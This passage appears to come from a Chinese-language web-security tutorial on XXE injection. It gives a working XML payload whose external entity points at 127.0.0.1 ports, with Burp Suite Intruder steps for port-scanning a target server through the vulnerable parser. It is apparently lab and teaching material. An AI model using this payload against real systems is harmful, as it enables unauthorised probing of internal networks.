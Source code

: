 > 若关闭则显示 `Connection refused`
>
> 开启则每种服务反馈的信息不同

http:// 协议漏洞验证

```
http://hello.com
```

## 5 利用 BurpStuite 对目标服务器进行端口扫描

开启拦截，在 HackBar 提交端口扫描 payload

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE hello [
<!ELEMENT hello (nb,xxe)>
<!ELEMENT nb	(#PCDATA)>
<!ENTITY xxe SYSTEM "http://127.0.0.1:80">
]>
<hello>
    <xxe>&xxe;</xxe>
    <nb>666</nb>
</hello>
```

将截取的请求包发送到 `Intruder` ，清除 `payload` 位置

选中端口号添加 `payload` 位置

```
http://127.0.0.1:§80§
```

配置 `payload`

`payload` 类型选择 `数值` 

![payload 类型选择 数值](./../../../../images/XXE/payload%20%E7%B1%BB%E5%9E%8B%E9%80%89%E6%8B%A9%20%E6%95%B0%E5%80%BC.png)

选择端口扫描范围

![选择端口扫描范围](./../../../../images/XXE/%E9%80%89%E6%8B%A9%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8F%E8%8C%83%E5%9B%B4.png)

取消编码

![取消编码](./../../../../images/XXE/%E5%8F%96%E6%B6%88%E7%BC%96%E7%A0%81.png)

检索含有 `Connection refused` 的响应包

> 若有 `Connection refused` ，则端口未开放
